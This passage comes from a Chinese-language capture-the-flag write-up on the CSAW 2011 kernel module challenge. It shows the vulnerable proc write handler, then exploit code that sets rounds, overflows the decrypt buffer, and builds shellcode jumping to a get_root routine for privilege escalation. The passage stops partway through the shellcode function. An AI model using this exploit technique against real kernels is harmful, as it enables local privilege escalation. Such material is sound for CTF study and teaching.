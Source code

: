 ```
int
key_write(struct file *file, const char __user *ubuf, unsigned long count, void *data)
{
        char buf[MAX_LENGTH];
        printk(KERN_INFO "csaw: called key_write\n");
        memset(buf, 0, sizeof(buf));
        if (count > MAX_LENGTH) {
                count = MAX_LENGTH;
        }
        if (copy_from_user(&buf, ubuf, count)) {
                return -EFAULT;
        }
        sscanf(buf, "%16c\t%d", (char *) key, &rounds);
        return count;
}

```

填充 rounds 和触发的函数如下, 就是打开相应模块然后触发各自实现的读入函数（读入函数这里就不放了，类似于第一个案例的实现）：

```
void
set_rounds(int rounds)
{
        FILE *fp = open_file("/proc/csaw2011/key");
        fprintf(fp, "FFFFFFFFFFFFFFFF\t%d\n", rounds);
        fclose(fp);
        printf("[+] Rounds set successfully\n");
}
void
trigger_vuln(void)
{
        FILE *fp = open_file("/proc/csaw2011/decrypt");
        fprintf(fp, "@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@");
        fclose(fp);
        syscall(0);
}

```

当然有点无语的是具体 shellcode 填充，给了 x86 架构的 exp，然而放在 androidkernel 的题库里。。。shellcode 就是类似于 jop 的思路

```
/* This function just does:
 * asm("mov $get_root, %eax; jmp *%eax;");
 *
 * The format of these instructions is:
 * mov addr, %eax       => b8 little_endian(addr)
 * jmp *%eax            => ff e0
 */
void
generate_shellcode(char *buf)
{
        long *p;
        *buf++ = '\xb8';
 
        /* mov $get_root, %eax */
        p = (long *)buf;
        *p = (long)&get_root;
        buf += sizeof(long *);
 
        /* jmp eax */
        *buf++ = '\xff';
```